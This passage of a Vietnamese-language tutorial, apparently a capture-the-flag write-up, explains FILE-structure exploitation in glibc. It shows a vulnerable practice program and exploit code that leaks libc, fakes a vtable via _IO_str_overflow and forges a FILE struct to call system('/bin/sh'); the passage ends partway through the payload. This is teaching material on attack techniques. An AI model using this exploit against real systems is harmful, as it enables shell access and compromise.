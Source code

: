 int flush_only = c == EOF;
_IO_size_t pos;
pos = fp->_IO_write_ptr - fp->_IO_write_base;
  if (pos >= (_IO_size_t) (_IO_blen (fp) + flush_only))
```
1 điều cần lưu ý là phải bypass được các điều kiện trên


- giá trị mặc định của biến flush_only được sử dụng trong câu lệnh so sánh là 0 và câu lệnh có thể tóm tắt là pos >= _IO_blen(fp)  , do đó nếu _IO_write_base được khởi tạo bằng 0 thì giá trị _IO_write_ptr  trở thành giá trị của pos , nhờ đó ta có thể vượt qua thành công


Thực Hành

```
int main() {
  init();

  fp = fopen("/dev/urandom", "r");

  printf("stdout: %p\n", stdout);
  printf("Data: ");

  read(0, fp, 300);

  fclose(fp);
}
```

ta được cho address của stdout và nhập được vào fp (fp ở đây là con trỏ file)


- đầu tiên ta sẽ tính các địa chỉ cần thiết 
```
stdout = int(p.recvuntil("\n"),16)
libc_base = stdout - libc.symbols['_IO_2_1_stdout_']
io_file_jumps = libc_base + libc.symbols['_IO_file_jumps']
io_str_overflow = io_file_jumps + 0xd8
```
địa chỉ io_str_overflow có thể được tính toán dựa trên khoảng cách từ io_file_jumps là 0xd8 thông qua debug động


```
fake_vtable = io_str_overflow - 16
binsh = libc_base + next(libc.search(b"/bin/sh"))
system = libc_base + libc.symbols['system']
fp = elf.symbols['fp']
payload = p64(0x0) # flags
payload += p64(0x0) # _IO_read_ptr
payload += p64(0x0) # _IO_read_end
payload += p64(0x0) # _IO_read_base
payload += p64(0x0) # _IO_write_base
payload += p64((int((binsh - 100) / 2))) # _IO_write_ptr
payload += p64(0x0) # _IO_write_end
payload += p64(0x0) # _IO_buf_base
payload += p64((int((binsh - 100) / 2))) # _IO_buf_end
payload += p64(0x0) # _IO_save_base
payload += p64(0x0) # _IO_backup_base
payload += p64(0x0) # _IO_save_end
payload += p64(0x0) # _IO_marker
payload += p64(0x0) # _IO_chain
payload += p64(0x0) # _fileno
payload += p64(0x0) # _old_offset
payload += p64(0x0)
payload += p64(fp + 0x80) # _lock